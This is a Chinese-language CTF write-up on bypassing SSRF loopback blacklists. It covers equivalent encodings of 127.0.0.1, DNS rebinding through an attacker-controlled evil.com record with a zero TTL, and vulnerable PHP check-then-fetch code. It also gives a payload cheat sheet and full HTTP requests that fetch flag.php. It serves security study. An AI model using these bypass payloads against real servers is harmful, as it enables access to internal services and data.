

## 一句话概括

`127.0.0.1`、`127.1`、`0x7F000001`、`2130706433`、`0177.0.0.1`、`0`、`localhost`、`[::1]` —— **写法千奇百怪，指向的是同一个 32 位整数**。黑名单拦的是字符串，解析器认的是数值，落差就是绕过空间；如果连数值区间也拦了，那就改用 **DNS 重绑定**，让域名在「检查时」和「请求时」解析出两个不同的 IP。

## 本题情景与解题手法

### 题目形态

一个 SSRF 入口，加了回环地址黑名单，把 `127.0.0.1` 这类写法挡掉：

```php
$url = $_POST['url'];
// 伪代码：检查 URL 里有没有出现 127.0.0.1 / localhost
if (preg_match('/127\.0\.0\.1|localhost/i', $url)) {
    die('error');
}
$ch = curl_init($url);
...
echo curl_exec($ch);
```

### 第一步：确认黑名单拦的是什么

先用基础 payload 打一发：

```http
url=http://127.0.0.1/flag.php
```

回显拦截提示 → 黑名单生效，且**拦的是字符串**（`127.0.0.1` 这个字面量）。

### 第二步：换成"同一个地址的另一种写法"

既然拦的是字面量，换个写法就行。本题的答案是**最短的那个**：

```http
url=http://0/flag.php
```

`http://0/` 里的 `0` 会被 URL 解析器补成 `0.0.0.0`。**在 Linux 上，`0.0.0.0` 作为连接目标等同于本机**（访问本机所有网卡上的服务），于是绕过了只匹配 `127.0.0.1` 的黑名单，实际访问的还是服务器自己的 80 端口。

### 第三步：逐个试其它等价写法

如果 `0` 也被拦，就按「数值相同、字面不同」继续换：

```text
http://127.1/flag.php
http://2130706433/flag.php
http://0x7F000001/flag.php
http://0177.0.0.1/flag.php
http://localhost/flag.php
http://[::1]/flag.php
```

### 注入手法一句话总结

> **黑名单拦字符串** → 用同一个 IP 的另一种字面量（`0` / `127.1` / 十进制 / 十六进制 / 八进制 / IPv6）→ URL 解析器把它归一成同一个地址 → 请求照旧落到服务器本机。

## 原理

### 1. 回环地址：一个 IP 段，不是一个 IP

`127.0.0.1` 只是整个**回环地址段**里的一个点：

```text
127.0.0.0/8  →  127.0.0.1 ~ 127.255.255.254
```

这一整段都指向**当前这台设备本身**，不发往真实网络。所以在 SSRF 里换用 `127.0.0.2`、`127.1.1.1`、`127.10.20.30`、`127.255.255.254` 全都等价。

### 2. 为什么它是"服务器自己"而不是"攻击者自己"

这是理解 SSRF 最容易卡住的一点：

| 场景 | 谁在访问 `127.0.0.1` | `127.0.0.1` 指向谁 |
|---|---|---|
| 你在浏览器里敲 `127.0.0.1` | 你的浏览器 | **你的电脑** |
| SSRF 里服务器 `curl` | 靶机服务器 | **靶机服务器** |

原因还是那句：**请求由服务器发起**。所以 `url=http://127.0.0.1/` 的实际效果是「服务器去访问它自己的本地服务」，而不是访问攻击者的机器。

例外情况（原文补充）：

- **Docker 容器**：`127.0.0.1` = **容器自己**，不是物理宿主机的 127.0.0.1
- **走代理的场景**：`127.0.0.1` 可能是代理服务器自己

### 3. 为什么有那么多种写法 —— 从 32 位整数推导

IP 在网络包里本来就是 **32 位二进制**，"点分十进制"只是给人看的写法：

```text
127.0.0.1  →  01111111 00000000 00000000 00000001
              │        │        │        │
             字节1     字节2     字节3     字节4
              127       0        0        1
```

把它当作一个 32 位无符号整数，每个字节的权重是：

| 字节 | 位权 | 权重值 |
|---|---|---|
| 字节1 | 2^24 ~ 2^31 | 16,777,216 |
| 字节2 | 2^16 ~ 2^23 | 65,536 |
| 字节3 | 2^8 ~ 2^15 | 256 |
| 字节4 | 2^0 ~ 2^7 | 1 |

```text
总数值 = 127 × 16777216 + 0 × 65536 + 0 × 256 + 1 × 1
       = 2,130,706,432 + 0 + 0 + 1
       = 2,130,706,433
```

于是同一个地址就有了一整族等价写法：



| 表示法 | 字面量 | 说明 |
|---|---|---|
| 点分十进制 | `127.0.0.1` | 标准写法 |
| 二进制 | `01111111 00000000 00000000 00000001` | 数据包里的真实形态，无点号 |
| 八进制 | `0177.0.0.1` / `0177.0000.0001` / `017700000001` | 以 `0` 开头 |
| 十六进制 | `0x7F000001` / `0x7f.0x00.0x00.0x01` | 以 `0x` 开头 |
| 十进制整数 | `2130706433` | 整个 32 位无符号整数 |
| 缩写形式 | `127.1` | 省略中间的 0 段 |
| 通配 | `0` / `0.0.0.0` | Linux 上作为连接目标时等价于本机 |
| 域名 | `localhost` / `ip6-localhost` / `localhost.localdomain` | 本地 hosts 里指向回环 |
| IPv6 | `[::1]` | IPv6 的回环地址 |

**黑名单要么匹配字符串（`strpos` / `preg_match` 查 `127.0.0.1`），要么匹配数值区间（`filter_var` + `NO_PRIV_RANGE | NO_RES_RANGE`）。** 前者用换写法绕，后者换写法就没用了 —— 这是 web357 的分水岭（见 05）。

### 4. DNS 重绑定：当"换写法"也被堵死时

如果防御方做的是**正确的五步检查**：

| 步骤 | 防御措施 | 目标 |
|---|---|---|
| 1 | 解析目标 URL，取出 Host | 提取要检查的对象 |
| 2 | 解析 Host，得到其 IP | DNS 解析，拿到真实 IP |
| 3 | 检查 IP 是否为内网地址 | 拦内网 IP 段 |
| 4 | 请求 URL | 检查通过后才发起 |
| 5 | 若有跳转，取出跳转 URL，回到步骤 1 | 防止重定向绕过 |

这套逻辑能防住：直接访问内网 IP、302 跳转、`xip.io`/短链接变换、URL 变形、畸形 URL、IP 进制转换。

**但它有一个无法回避的假设：第 2 步解析出的 IP，和第 4 步实际连接的 IP 是同一个。**

DNS 重绑定攻击的靶子就是这一条。

#### 攻击前提：攻击者完全控制一个域名的 DNS 记录

```bind
; 攻击者自己的域名，想怎么配就怎么配，TTL 设成 0 或 1
evil.com.  IN  A  93.184.216.34   ; 第一次解析：一个合法公网 IP
evil.com.  IN  A  192.168.1.1     ; 第二次解析：内网 IP
evil.com.  IN  A  10.0.0.1        ; 甚至可以是多个内网 IP
```

#### 时间线

```text
T0（检查阶段）：
    gethostbyname('evil.com') → 93.184.216.34（公网 IP）
    安全检查：是公网 IP → ✅ 放行

    ↓ TTL=0，记录立即过期

T1（执行阶段）：
    真正发起请求时重新解析 evil.com → 192.168.1.1（内网 IP）
    实际连接：http://192.168.1.1/...   ← 打到了内网
```

对应到有漏洞的代码，看得很清楚：

```php
function vulnerable_ssrf($url) {
    $host = parse_url($url, PHP_URL_HOST);

    // T0：检查阶段
    $ip_check = gethostbyname($host);      // 返回公网 IP ✅
    if (is_private_ip($ip_check)) die('Blocked');

    // T1：执行阶段（缓存已过期，重新解析）
    $content = file_get_contents($url);    // 这次解析得到内网 IP ❌
    return $content;
}
```

#### 一个必须澄清的概念

**DNS 重绑定不是 HTTP 重定向。**

```text
❌ 错误理解：evil.com → 302 重定向 → 192.168.1.1
✅ 正确理解：evil.com 的 DNS 解析结果，从「公网 IP」变成了「内网 IP」
```

区别在于：302 是多了一个新的 URL（见 05），DNS 重绑定是**同一个 URL、同一个域名，两次解析的结果不同**。前者靠"后续请求不再校验"，后者靠"解析一次校验一次，而两次解析结果不一样"。

#### 现成工具

自己搭 DNS 服务器很麻烦，可以用公开的切换服务：

```text
https://lock.cmpxchg8b.com/rebinder.html
```

用它把你的域名轮流解析到两个 IP。**注意：这类服务不稳定，需要多试几次才可能成功**，属于"打中了就中"的手法。

## 利用条件

**换写法绕过**：

1. 黑名单是**字符串匹配**（最常见）
2. URL 解析器仍然接受该写法（多数 curl / 浏览器都接受八进制、十六进制、十进制整数）

**DNS 重绑定**：

1. 防御方"先解析后检查再请求"（即做了正确的步骤 1-3）
2. 攻击者可控一个域名的 DNS 记录，且 **TTL 设为 0 或极小**
3. 防御方**没有对域名做二次绑定**（即没有"解析出的 IP 固定给这次请求用"，如 `CURLOPT_RESOLVE` / 自定义 DNS resolver 固定结果）
4. 目标服务允许 Host 头为域名（有些服务会校验 Host）

## Payload 速查

### 环回地址等价写法

| 写法 | Payload |
|---|---|
| 点分十进制 | `http://127.0.0.1/flag.php` |
| 缩写 | `http://127.1/flag.php` |
| 其它回环 IP | `http://127.0.0.2/flag.php` |
| 十进制整数 | `http://2130706433/flag.php` |
| 十六进制 | `http://0x7F000001/flag.php` |
| 八进制 | `http://0177.0.0.1/flag.php`、`http://017700000001/flag.php` |
| 通配 | `http://0/flag.php` |
| 域名 | `http://localhost/flag.php` |
| 本地域名变种 | `http://ip6-localhost/flag.php`、`http://localhost.localdomain/flag.php` |
| IPv6 回环 | `http://[::1]/flag.php` |

> 一些厂商的域名本身就被解析到 `127.0.0.1`（如安全检测类域名 `safe.taobao.com`），在"域名黑名单"场景下也能直接借用 —— 不过 web357 那种 `filter_var` 校验会连域名一起拒掉。

### SSRF 绕过手法对照表

| 被拦的东西 | 绕过写法 | 详见 |
|---|---|---|
| 字符串 `127.0.0.1` | `127.1` / `127.0.0.2` / `2130706433` / `0x7F000001` / `0177.0.0.1` / `0` | 本篇 |
| 字符串 `localhost` | `ip6-localhost` / `localhost.localdomain` / `[::1]` | 本篇 |
| `127.` 前缀 | `0.0.0.0`（写 `0`）、指向回环的第三方域名 | 本篇 |
| 内网 IP 数值区间 | 短网址服务 / `xip.io` / DNS 重绑定 / 302 跳转 | 本篇、05 |
| 域名黑名单 | `@` userinfo 混淆、大小写、末尾加点 | 06 |
| 只校验第一次请求 | 302 重定向到内网 | 05 |
| 校验与执行有时间差 | DNS 重绑定 | 本篇 |
| 只限制 `http://` 协议 | `file://` / `dict://` / `gopher://` | 02、03 |
| 只限制跳转后为 http | 少见的 `CURLOPT_REDIR_PROTOCOLS` 缺失场景 | 01 |

## 完整示例

```http
# 基线：被黑名单拦截
POST / HTTP/1.1
Host: 靶机地址
Content-Type: application/x-www-form-urlencoded

url=http://127.0.0.1/flag.php
```

回显：`error` / 拦截提示。

```http
# 绕过：同一个地址的另一种写法
POST / HTTP/1.1
Host: 靶机地址
Content-Type: application/x-www-form-urlencoded

url=http://0/flag.php
```

回显：flag 内容。

## 踩坑与备注

- **`0` 是否等价于本机，取决于操作系统**：Linux 上 `connect` 到 `0.0.0.0` 会被路由到本机；Windows 上行为不同，`0` 通常不行。CTF 靶机基本都是 Linux。
- **Docker 环境要留神**：`127.0.0.1` 是**容器自己**，宿主机上跑的服务用 `127.0.0.1` 打不到，得用宿主机的内网 IP 或 `host.docker.internal`。
- **`filter_var` 校验会连域名一起拒掉**：`FILTER_VALIDATE_IP` 要求输入是**合法的 IP 字面量**，`localhost` 不是 IP → 直接判不合格。所以 web357 那种题目里，写法变形和 DNS 重绑定**双双失效**，只剩 302（见 05）。
- **DNS 重绑定的成功率不高**：TTL 缓存、解析器缓存、连接复用都会干扰；原文明确写了"由于不稳定，需要多试几次访问才可能成功"。别把它当成稳定手法，能用 302 就优先 302。
- **原文的"恶意网页 + fetch"示例属于浏览器侧场景**：那段 JS 演示的是"用户被诱导访问恶意站点"，与服务器侧 SSRF 不是同一回事。服务端 SSRF 里，真正生效的是「服务器自己 `gethostbyname` 检查 → `file_get_contents` 重新解析」这条链，本文按服务端场景叙述。
